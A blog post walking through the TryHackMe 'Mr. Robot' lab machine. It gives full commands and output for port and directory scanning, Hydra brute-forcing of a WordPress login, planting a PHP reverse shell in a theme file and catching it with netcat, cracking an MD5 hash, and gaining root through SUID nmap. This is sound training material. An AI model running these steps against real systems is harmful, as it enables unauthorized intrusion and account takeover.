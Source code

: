 ```yaml
---
layout: post
title: Mr. Robot
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2021-11-02
tags: [TryHackMe, WebApp, Linux]
categories: [Practice]
toc:  true
---
```


Mr. Robot is a TryHackMe room based around the TV show of the same name.

## Enumeration

### Nmap

Starting off like all the rest, perform an Nmap

```shell
$ nmap -sC -sV -o nmap 10.10.63.176
Nmap scan report for 10.10.63.176
Host is up (0.12s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
```

### Webapp

Perusing around the webpage of the machine you can find a robots.txt file (seems on theme). The file contains the following items:

```text
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Downloading the .dic file to our local machine we can see it is a 858,160 line long file we can use for password guessing.

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─# wget 10.10.167.86/fsocity.dic
--2021-11-27 09:59:09--  http://10.10.167.86/fsocity.dic
Connecting to 10.10.167.86:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’

fsocity.dic              100%[===========>]   6.91M  1.17MB/s    in 6.8s

2021-11-27 09:59:16 (1.02 MB/s) - ‘fsocity.dic’ saved [7245381/7245381]


┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─# cat fsocity.dic | wc -l
858160
```

This length is insane, and thankfully it is absolutely FILLED with duplicate entries. We can shorten this down with the following command

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─# cat fsocity.dic | sort | uniq | wc -l
11451
```

This reduces the wordlist by a staggering **_98.7%_**! Remember to always clean your datasets kids.

### Gobuster

```zsh
──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─# gobuster dir -u 10.10.167.86 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e -x 301,404
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.167.86
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              301,404
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2021/11/27 10:17:12 Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 301) [Size: 233] [--> http://10.10.63.176/blog/]
/login                (Status: 302) [Size: 0] [--> http://10.10.63.176/wp-login.php]
/images               (Status: 301) [Size: 235] [--> http://10.10.63.176/images/]
/index.html           (Status: 200) [Size: 1188]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.63.176/]
/sitemap              (Status: 200) [Size: 0]
/image                (Status: 301) [Size: 0] [--> http://10.10.63.176/image/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.63.176/wp-content/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.63.176/admin/]
/wp-login.php         (Status: 200) [Size: 2664]
/wp-login             (Status: 200) [Size: 2664]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.63.176/feed/]
/license.txt          (Status: 200) [Size: 309]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.63.176/wp-includes/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.63.176/Image/]
/wp-register.php      (Status: 301) [Size: 0] [--> http://10.10.63.176/wp-login.php?action=register]
/wp-rss2.php          (Status: 301) [Size: 0] [--> http://10.10.63.176/feed/]
```

Looks like we have a WordPress site!

## Abusing fsocity.dic

Sadly, we do not have a username to go off of to use the fsocity.dic file on. However on the other hand we have a fsocity.dic file to go off of to find a username.

We can use Hydra for this user enumeration.

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─# hydra -L fsocity.dic 10.10.167.86 -p test http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 64
. . .
[DATA] attacking http-post-form://10.10.167.86:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username
[80][http-post-form] host: 10.10.167.86   login: Elliot   password: test
[80][http-post-form] host: 10.10.167.86   login: elliot   password: test
```

And now we can use "Elliot" for password guessing!

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─# hydra -l Elliot -P fsocity.dic  10.10.167.86 http-post-form  "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -t 64
. . .
[80][http-post-form] host: 10.10.167.86   login: Elliot   password: ER28-0652
```

## Reverse Shell

Now that we can log into the WordPress site, to get a reverse shell on the system we can edit the header.php file under Appearance > Editor > header.php

I personally like to upload my reverse shells into this file just under the header comment section. A great php-reverse-shell to use is [pentestmonkey's](https://pentestmonkey.net/tools/web-shells/php-reverse-shell).

After adding the reverse shell navigate to http://10.10.167.86/header.php

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.6.89.80] from (UNKNOWN) [10.10.7.84] 44094
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:25:45 up 10 min,  0 users,  load average: 0.03, 0.10, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: cant access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ ^Z
zsh: suspended  nc -nlvp 4444

┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─$ stty raw -echo;fg
[1]  + continued  nc -nlvp 4444

daemon@linux:/$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@linux:/$
```

## User Enumeration

Looking through the files on the system we find a robot user folder with some interesting files

```console
daemon@linux:/$ cd /home;ls
robot

daemon@linux:/home$ cd robot/
daemon@linux:/home/robot$ ls
key-2-of-3.txt	password.raw-md5

daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

daemon@linux:/home/robot$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
```

## Robot user

Using [crackstation.net](https://crackstation.net) we can get password for the hash.

`c3fcd3d76192e4007dfb496cca67e13b : abcdefghijklmnopqrstuvwxyz`

Now that we are authenticated as Robot, we can read the second key file under /home/robot.

This user also has no sudo commands to run but we can enumerate the SUID binaries we can run with the following one-liner:

```sh
robot@linux:~$ find / -type f -perm -04000 -ls 2>/dev/null
 15068   44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /bin/ping
 15093   68 -rwsr-xr-x   1 root     root        69120 Feb 12  2015 /bin/umount
 15060   96 -rwsr-xr-x   1 root     root        94792 Feb 12  2015 /bin/mount
 15069   44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /bin/ping6
 15085   40 -rwsr-xr-x   1 root     root        36936 Feb 17  2014 /bin/su
 36231   48 -rwsr-xr-x   1 root     root        47032 Feb 17  2014 /usr/bin/passwd
 36216   32 -rwsr-xr-x   1 root     root        32464 Feb 17  2014 /usr/bin/newgrp
 36041   44 -rwsr-xr-x   1 root     root        41336 Feb 17  2014 /usr/bin/chsh
 36038   48 -rwsr-xr-x   1 root     root        46424 Feb 17  2014 /usr/bin/chfn
 36148   68 -rwsr-xr-x   1 root     root        68152 Feb 17  2014 /usr/bin/gpasswd
 36349  152 -rwsr-xr-x   1 root     root       155008 Mar 12  2015 /usr/bin/sudo
 34835  496 -rwsr-xr-x   1 root     root       504736 Nov 13  2015 /usr/local/bin/nmap
 38768  432 -rwsr-xr-x   1 root     root       440416 May 12  2014 /usr/lib/openssh/ssh-keysign
 38526   12 -rwsr-xr-x   1 root     root        10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
395259   12 -r-sr-xr-x   1 root     root         9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
395286   16 -r-sr-xr-x   1 root     root        14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
 38505   12 -rwsr-xr-x   1 root     root        10344 Feb 25  2015 /usr/lib/pt_chown
```

The most interesting one here is nmap, and according to [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#suid) we can exploit nmap to gain a root shell.

```sh
robot@linux:~$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
```

With this we can read the final key file and complete the machine.